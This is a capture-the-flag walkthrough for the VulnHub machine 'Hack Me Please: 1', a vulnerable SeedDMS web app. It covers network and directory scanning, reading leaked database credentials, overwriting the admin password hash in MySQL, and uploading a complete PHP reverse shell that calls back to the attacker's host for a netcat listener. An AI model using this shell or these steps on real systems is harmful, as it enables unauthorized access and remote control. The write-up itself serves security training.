::::::::::::::::::::::::::: page
# Hack Me Please: 1 {#hack-me-please-1 .title}

\

## 

## Hack Me Please: 1

- **[Hack Me Please: 1]{style="color:#cdab8f;"}** :-

<!-- -->

- Download the machine :
  <https://www.vulnhub.com/entry/hack-me-please-1,731/>



- Extract the rar file .
- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#986a44;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.181
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.244
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.244 
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.244
:::



1.  [Web Enumeration]{style="color:#986a44;"} :

- IP visit in browser : <http://192.168.2.244>

<!-- -->

- View the source code :



- Visit the endpoints : <http://192.168.2.244/js/main.js>



- Visit the found endpoint :
  <http://192.168.2.244/seeddms51x/seeddms-5.1.22>



- Directory brute force on /seeddms51x :

::: codebox
    gobuster dir -u http://192.168.2.244/seeddms51x/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php -t 50
:::



- Again directory brute force in /conf file :

::: codebox
    gobuster dir -u http://192.168.2.244/seeddms51x/conf -w /usr/share/wordlists/dirb/common.txt -x xml,txt,bak,conf
:::



- Visit the found file :
  <http://192.168.2.244/seeddms51x/conf/settings.xml>



1.  [MySQL Enumeration]{style="color:#986a44;"} :

- Connect to mysql :

::: codebox
    mysql --skip-ssl -h 192.168.2.244 -u seeddms -pseeddms
:::



- Database show :

::: codebox
    SHOW DATABASES;
:::

- Use database :

::: codebox
    USE seeddms;
:::

- Show the tables in database :

::: codebox
    SHOW TABLES;
:::



- Data show from all tables :

::: codebox
    SELECT * FROM users;
:::

- 

::: codebox
    SELECT * FROM tblUsers;
:::



- Try to login with found username and password :
  <http://192.168.2.244/seeddms51x/seeddms-5.1.22/out/out.Login.php?msg=Error+signing+in.+User+ID+or+password+incorrect>[.](http://192.168.2.244/seeddms51x/seeddms-5.1.22/out/out.Login.php?msg=Error+signing+in.+User+ID+or+password+incorrect.)

 Not login .

- Hash Identify :

::: codebox
    hash-identifier "f9ef2c539bad8a6d2f3432b6d49ab51a"
:::



- New MD5 hash generate :

::: codebox
    echo -n "hackme123" | md5sum
:::

- 

::: codebox
    echo -n "hackme123" | md5sum | cut -d ' ' -f1
:::



- Replace new hash from the admin hash :

::: codebox
    UPDATE tblUsers SET pwd='4d55ef6655de2b4a006ada41db320e6f' WHERE login='admin';
:::



- Now login the site :
  <http://192.168.2.244/seeddms51x/seeddms-5.1.22/out/out.Login.php?msg=Error+signing+in.+User+ID+or+password+incorrect>[.](http://192.168.2.244/seeddms51x/seeddms-5.1.22/out/out.Login.php?msg=Error+signing+in.+User+ID+or+password+incorrect.)

::: codebox
    Username : admin
    Password : hackme123
:::



 Successfully login .

1.  [Reverse shell]{style="color:#986a44;"} :

- Search the seeddms exploit :

::: codebox
    searchsploit seeddms
:::



- Now search the exploit DB in Remote Command Execution :

::: codebox
    https://www.exploit-db.com/exploits/47022
:::



- Now go to site and click add document .

<!-- -->

- Make a file :

::: codebox
    nano reverse_shell.php
:::

- Add the shell content :

::: codebox
    <?php

    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '192.168.2.219';  // CHANGE THIS
    $port = 443;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;

    //
    // Daemonise ourself if possible to avoid zombies later
    //

    // pcntl_fork is hardly ever available, but will allow us to daemonise
    // our php process and avoid zombies.  Worth a try...
    if (function_exists('pcntl_fork')) {
      // Fork and have the parent process exit
      $pid = pcntl_fork();
      
      if ($pid == -1) {
         printit("ERROR: Can't fork");
           exit(1);
      }
     
      if ($pid) {
           exit(0);  // Parent exits
     }

       // Make the current process a session leader
      // Will only succeed if we forked
     if (posix_setsid() == -1) {
           printit("Error: Can't setsid()");
           exit(1);
      }

       $daemon = 1;
    } else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }

    // Change to a safe directory
    chdir("/");

    // Remove any umask we inherited
    umask(0);

    //
    // Do the reverse shell...
    //

    // Open reverse connection
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
    }

    // Spawn shell process
    $descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
       1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
       2 => array("pipe", "w")   // stderr is a pipe that the child will write to
    );

    $process = proc_open($shell, $descriptorspec, $pipes);

    if (!is_resource($process)) {
      printit("ERROR: Can't spawn shell");
        exit(1);
    }

    // Set everything to non-blocking
    // Reason: Occsionally reads will block, even though stream_select tells us they won't
    stream_set_blocking($pipes[0], 0);
    stream_set_blocking($pipes[1], 0);
    stream_set_blocking($pipes[2], 0);
    stream_set_blocking($sock, 0);

    printit("Successfully opened reverse shell to $ip:$port");

    while (1) {
       // Check for end of TCP connection
        if (feof($sock)) {
            printit("ERROR: Shell connection terminated");
          break;
        }

       // Check for end of STDOUT
        if (feof($pipes[1])) {
            printit("ERROR: Shell process terminated");
         break;
        }

       // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
     $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
       // data to process's STDIN
        if (in_array($sock, $read_a)) {
           if ($debug) printit("SOCK READ");
           $input = fread($sock, $chunk_size);
           if ($debug) printit("SOCK: $input");
            fwrite($pipes[0], $input);
        }

       // If we can read from the process's STDOUT
       // send data down tcp connection
      if (in_array($pipes[1], $read_a)) {
           if ($debug) printit("STDOUT READ");
         $input = fread($pipes[1], $chunk_size);
           if ($debug) printit("STDOUT: $input");
          fwrite($sock, $input);
        }

       // If we can read from the process's STDERR
       // send data down tcp connection
      if (in_array($pipes[2], $read_a)) {
           if ($debug) printit("STDERR READ");
         $input = fread($pipes[2], $chunk_size);
           if ($debug) printit("STDERR: $input");
          fwrite($sock, $input);
        }
    }

    fclose($sock);
    fclose($pipes[0]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);

    // Like print, but does nothing if we've daemonised ourself
    // (I can't figure out how to redirect STDOUT like a proper daemon)
    function printit ($string) {
       if (!$daemon) {
           print "$string\n";
      }
    }

    ?> 
:::

- Upload the reverse shell file :



 Successfully upload the file .

- Listener Start :

::: codebox
    nc -nlvp 443
:::

- Call the url in new tab :

::: codebox
    http://192.168.2.244/seeddms51x/data/1048576/4/1.php
:::

- Got the reverse shell :


:::::::::::::::::::::::::::
